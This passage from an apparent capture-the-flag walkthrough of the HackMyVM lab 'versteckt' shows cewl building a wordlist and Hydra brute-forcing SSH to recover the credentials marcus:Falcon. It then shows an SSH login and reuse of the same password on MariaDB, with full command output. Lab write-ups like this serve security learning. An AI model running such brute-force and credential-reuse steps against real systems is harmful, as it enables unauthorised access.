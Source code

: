 ```shellscript
</html>
```

### 7. Password Generation and Brute Force

I used `cewl` to generate a wordlist from the content and then used Hydra to brute force SSH credentials:

```shellscript
┌──(zengla㉿kali)-[~/Desktop/hackmyvm/versteckt]
└─$ cewl -m 4 http://192.168.1.9/s3cr3tz0n3/m0r3inf0/ | sort -u > pass.txt

┌──(zengla㉿kali)-[~/Desktop/hackmyvm/versteckt]
└─$ hydra -l marcus -P pass.txt 192.168.1.9 -s 22334 ssh
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-25 11:29:51
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 179 login tries (l:1/p:179), ~12 tries per task
[DATA] attacking ssh://192.168.1.9:22334/
[22334][ssh] host: 192.168.1.9   login: marcus   password: Falcon
```

Successfully found credentials: `marcus:Falcon`

### 8. Initial Access (`marcus`)

I logged in as `marcus` via SSH:

```shellscript
┌──(zengla㉿kali)-[~/Desktop/hackmyvm/versteckt]
└─$ ssh marcus@192.168.1.9 -p 22334
marcus@192.168.1.9's password: 
Linux versteckt 5.10.0-9-amd64 #1 SMP Debian 5.10.70-1 (2021-09-30) x86_64
# ... (login banner) ...
marcus@versteckt:~$
```

### 9. Database Exploration

I discovered MariaDB was running locally and accessed it using the same password:

```shellscript
marcus@versteckt:~$ mariadb -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 32
Server version: 10.5.12-MariaDB-0+deb11u1 Debian 11

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| versteckt          |
+--------------------+

MariaDB [(none)]> use versteckt;
Database changed
MariaDB [versteckt]> show tables;
+---------------------+
| Tables_in_versteckt |
+---------------------+
```